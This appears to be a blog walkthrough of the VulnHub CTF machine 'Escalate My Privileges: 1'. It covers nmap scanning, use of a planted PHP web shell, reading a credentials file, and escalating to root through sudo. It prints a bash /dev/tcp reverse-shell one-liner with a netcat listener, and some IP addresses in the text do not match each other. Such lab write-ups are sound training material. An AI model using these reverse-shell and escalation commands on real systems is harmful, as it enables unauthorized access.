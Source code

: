 ```yaml
---
full_title: "Entry 0x07 - VulnHub: Escalate My Privileges: 1 Walkthrough"
description: "A step-by-step walkthrough of solving the Escalate My Privileges: 1 pentesting challenge from VulnHub."
date: "2020-04-12"
layout: post
coverImage: "screen-shot-2020-04-13-at-12.49.33-am.png"
tags:
- Beginner
- CTF
- Kali
- Linux
- Vulnhub
- Walkthrough
- Writeup
- Security
---
```


**Escalate My Privileges: 1** is a challenge posted on [VulnHub](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/) created by [Akanksha Sachin Verma](https://www.vulnhub.com/author/akanksha-sachin-verma,672/). This is a write-up of my experience solving this awesome CTF challenge.

With my Attack Machine (**Kali Linux**) and Victim Machine (**Escalate My Privileges: 1**) set up and running, I decided to get down to solving this challenge.

> Read more about my set up and environment [here](/blog/my-first-post)

I decided to start my journey by noting down the IP address of our victim machine. We are lucky that the author decided to display it directly on the login screen of the CentOS server.

![Screen Shot 2020-04-13 at 12.49.33 AM](/assets/images/screen-shot-2020-04-13-at-12.49.33-am.png)

Great! The victim machine has the IP address `192.168.56.120`. Let's continue with some port scanning (as usual 😏).

I decided to use my trusty `nmap` with options enabled to scan _all_ ports and provide details about the service running using the command: `nmap -p- -sV 192.168.56.120`

![Screen Shot 2020-04-13 at 7.11.20 PM](/assets/images/screen-shot-2020-04-13-at-7.11.20-pm.png)

The `nmap` scan revealed a whole bunch of open ports on the victim machine. Now, the first thing that I noticed was port `80` and I decided to navigate to the website (`http://192.168.56.102`) using **Firefox ESR** as follows:

![Screen Shot 2020-04-13 at 7.15.49 PM](/assets/images/screen-shot-2020-04-13-at-7.15.49-pm.png)

Cool! A pretty `index.html` webpage which goes well with the theme of the challenge 😎

Whenever, I am faced with a `HTML` page, I make it a point to view the webpage source code **before** attempting brute-force using tools like `dirb` or `dirbuster`. I decided to hit `<CTRL+U>` to view the webpage source.

![Screen Shot 2020-04-13 at 7.21.20 PM](/assets/images/screen-shot-2020-04-13-at-7.21.20-pm-e1586791364696.png)

Interesting! The `alt` attribute in the `img` tag has a URL - `http://ip/phpbash.php`

I decided to check out `http://192.168.56.120/phpbash.php` by replacing `ip` with the victim machine's IP address.

![Screen Shot 2020-04-13 at 7.51.19 PM](/assets/images/screen-shot-2020-04-13-at-7.51.19-pm.png)

Oh my God - command execution 😳

I decided to play with some basic Linux commands to learn more about my privileges.

![Screen Shot 2020-04-13 at 7.54.41 PM](/assets/images/screen-shot-2020-04-13-at-7.54.41-pm.png)

Looks like I am `apache`.

I decided to check for more users on the victim machine and look for clues. For this purpose, I ran the command: `cd /home` to navigate to the `/home` directory where I can find other users (if any).

![Screen Shot 2020-04-13 at 8.00.37 PM](/assets/images/screen-shot-2020-04-13-at-8.00.37-pm.png)

Bingo! Looks like there is a user called `armour` on the victim machine. I decided to look inside using the command: `ls -lsa armour` to also display hidden files (if any).

![Screen Shot 2020-04-13 at 8.02.28 PM](/assets/images/screen-shot-2020-04-13-at-8.02.28-pm.png)

C'mon it is literally right there - `Credentials.txt`

What does it contain? I decided to find out...

![Screen Shot 2020-04-13 at 8.07.02 PM](/assets/images/screen-shot-2020-04-13-at-8.07.02-pm.png)

The `Credentials.txt` file contains the following text:

```
my password is
md5(rootroot1)
```

Woohoo! A password... but how to use it?

Maybe `SSH`? Our previous `nmap` scan did show that port `22` was open. Also, the website did not have a login portal or something similar. I decided to try the `SSH` approach.

But first - I decided to compute the `MD5` hash of the password string - `rootroot1` using the simple Linux command: `echo -n rootroot1 | md5sum`

![Screen Shot 2020-04-13 at 8.22.25 PM](/assets/images/screen-shot-2020-04-13-at-8.22.25-pm.png)

> The `-n` option for the `echo` command prevents output of the trailing newline

Great! We have our password!

I decided to try logging into the victim machine as `armour` using the command: 
`ssh armour@192.168.56.120`

![Screen Shot 2020-04-13 at 8.29.01 PM](/assets/images/screen-shot-2020-04-13-at-8.29.01-pm.png)

Damn! Not what I had expected!

I decided to go back to the webpage. Maybe I can login to the `armour` account directly using the `su` Linux command as follows: `su - armour`

![Screen Shot 2020-04-13 at 8.47.58 PM](/assets/images/screen-shot-2020-04-13-at-8.47.58-pm.png)

> Read more about `su` vs `sudo` [here](https://www.lifewire.com/switch-user-su-command-3887179)

Hmm, `Authentication failure`.

I decided to explore a different approach - Reverse Shell. Maybe an _interactive_ shell will allow me to input the `MD5` password hash and escalate my privileges from `apache` to beyond 😎

With my handy [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) by **pentestmonkey**, I decided to proceed by launching `nc -lvp 1010` on my attack machine to listen for connections. Then, on the webpage command execution input, I ran the command:

`bash -i >& /dev/tcp/192.168.56.119/1010 0>&1` where `192.168.56.120` is the IP address of attack machine and port `1010` is the randomly selected port on which `nc` is listening on for connections.

![Screen Shot 2020-04-13 at 8.55.43 PM](/assets/images/screen-shot-2020-04-13-at-8.55.43-pm.png)

Lo and behold!

![Screen Shot 2020-04-13 at 9.12.38 PM](/assets/images/screen-shot-2020-04-13-at-9.12.38-pm.png)

Still `apache` btw!

Now, to login as `armour` using the command: `su - armour`

![Screen Shot 2020-04-13 at 10.20.24 PM](/assets/images/screen-shot-2020-04-13-at-10.20.24-pm.png)

Woohoo! I am `armour`

It is important to note that once the password is entered, there is no manual prompt. You just need to type in any command and see 😏

Okay, the next step is to escalate my privileges and capture the flag. But how?

I decided to proceed by checking for `sudo` rights for the user `armour`. To do this, I ran the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.25.44 PM](/assets/images/screen-shot-2020-04-13-at-10.25.44-pm.png)

Bah! Enough is enough! It is time to get a _full_ `tty` shell.

I ran my usual ever-wonderful Python `tty` command: `python -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.28.18 PM](/assets/images/screen-shot-2020-04-13-at-10.28.18-pm.png)

That's when I decided to check the version of Python. After all, Python can't betray me 😳

![Screen Shot 2020-04-13 at 10.29.48 PM](/assets/images/screen-shot-2020-04-13-at-10.29.48-pm.png)

Oh look what we have here!

Python 3.6 - Hurrah!

I decided to try the same Python `tty` command using `python3` this time as follows: `python3 -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.31.22 PM](/assets/images/screen-shot-2020-04-13-at-10.31.22-pm-e1586802718207.png)

Well, there you go! Finally!

Back to checking for a chance to exploit `sudo` rights using the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.33.32 PM](/assets/images/screen-shot-2020-04-13-at-10.33.32-pm.png)

Like a kid in a candy store. Woah!

How about using good ol' `bash`?

![Screen Shot 2020-04-13 at 10.36.18 PM](/assets/images/screen-shot-2020-04-13-at-10.36.18-pm.png)

We did it! We got root! Heck yes!

...Now for the flag 😎

![Screen Shot 2020-04-13 at 10.38.30 PM](/assets/images/screen-shot-2020-04-13-at-10.38.30-pm.png)

Is that `MD5`? 😏

#### My Thoughts

That was a great challenge from [Akanksha Sachin Verma](https://www.vulnhub.com/author/akanksha-sachin-verma,672/)! I really enjoyed going back to the basics. **Privilege escalation** is one of those areas where practice is everything and this challenge seems to be straightforward enough for a beginner (with boatloads of trial-and-error of course 😁)

I am writing a Vulnhub walkthrough after almost 7 months and had to do a LOT of Google-fu and re-read my old material to complete this challenge.

I look forward to solving more challenges in the [Escalate My Privileges](https://www.vulnhub.com/series/escalate-my-privileges,291/) series.

If you enjoyed reading this write-up, please check out my other [Vulnhub walkthroughs](/tags#vulnhub).
